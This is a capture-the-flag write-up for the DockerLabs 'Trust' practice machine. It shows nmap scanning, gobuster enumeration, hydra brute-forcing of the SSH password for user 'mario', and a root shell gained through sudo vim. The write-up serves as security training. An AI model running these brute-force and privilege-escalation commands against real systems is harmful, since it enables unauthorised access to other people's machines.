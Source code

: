 # Write Up First Hacking

**Difficulty:** Super easy<br>  
**Dockerlabs link:** https://dockerlabs.es/

## Environment setup
First of all, we deploy the machine using the script that comes when downloading it:
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the folder `trust-dockerlabs`, move inside, and use the *mkt* utility, which creates the folders *nmap*, *content*, *exploits* and *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Reconnaissance
Now that we know the IP address, we perform a full scan to find open ports in a stealthy and fast way:
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

So we discover that the open ports are SSH (22) and HTTP (80).  
With the *extractPorts* utility we copy them to the clipboard and then run a more thorough scan to discover the service and version running on those ports.


```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

## Exploitation
Since a web service and SSH are running, we first gather information from the webpage before trying SSH. To do this, we add an entry to our local DNS (/etc/hosts) with the machine’s name (`trust`) and its IP.

```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Accessing the website shows the default Apache page with no useful info, so we try to enumerate directories with *gobuster*:

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

We find a hidden page `/secret.php` that says:

```
Hola Mario,

Esta web no se puede hackear.
```
![alt text](../.sources/Trust-secret.png)

So we assume a possible username is **Mario**.  
With no more info, the next step is brute-forcing SSH with *hydra*:

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

And we obtain the password **chocolate**.

## Privilege Escalation
Once inside, we stabilize the shell:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Then we check what we can run with *sudo*:

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

We abuse this to spawn a root shell:

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```

Root obtained!